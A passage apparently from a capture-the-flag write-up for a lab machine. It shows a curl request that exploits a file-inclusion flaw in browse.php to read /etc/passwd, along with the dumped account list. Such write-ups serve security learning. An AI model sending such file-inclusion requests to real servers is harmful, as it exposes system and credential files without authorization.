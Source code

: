 # [PATH] /usr/local/www/apache24/data #

# [OS] Unix #

# [TYPE] Absolute Clean #

# [TRUNCATION] No Need. It's clean. #

# [READABLE FILES] #

# [0] /etc/passwd #

########################################################</pre>
Got access to the /etc/passwd file
<pre>[root:~/Desktop/poison]# curl -s http://10.10.10.84/browse.php\?file\=/etc/passwd

root:*:0:0:Charlie &amp;:/root:/bin/csh

toor:*:0:0:Bourne-again Superuser:/root:

daemon:*:1:1:Owner of many system processes:/root:/usr/sbin/nologin

operator:*:2:5:System &amp;:/:/usr/sbin/nologin

bin:*:3:7:Binaries Commands and Source:/:/usr/sbin/nologin

tty:*:4:65533:Tty Sandbox:/:/usr/sbin/nologin

kmem:*:5:65533:KMem Sandbox:/:/usr/sbin/nologin

games:*:7:13:Games pseudo-user:/:/usr/sbin/nologin

news:*:8:8:News Subsystem:/:/usr/sbin/nologin

man:*:9:9:Mister Man Pages:/usr/share/man:/usr/sbin/nologin

sshd:*:22:22:Secure Shell Daemon:/var/empty:/usr/sbin/nologin

smmsp:*:25:25:Sendmail Submission User:/var/spool/clientmqueue:/usr/sbin/nologin

mailnull:*:26:26:Sendmail Default User:/var/spool/mqueue:/usr/sbin/nologin

bind:*:53:53:Bind Sandbox:/:/usr/sbin/nologin

unbound:*:59:59:Unbound DNS Resolver:/var/unbound:/usr/sbin/nologin

proxy:*:62:62:Packet Filter pseudo-user:/nonexistent:/usr/sbin/nologin

_pflogd:*:64:64:pflogd privsep user:/var/empty:/usr/sbin/nologin

_dhcp:*:65:65:dhcp programs:/var/empty:/usr/sbin/nologin

uucp:*:66:66:UUCP pseudo-user:/var/spool/uucppublic:/usr/local/libexec/uucp/uucico
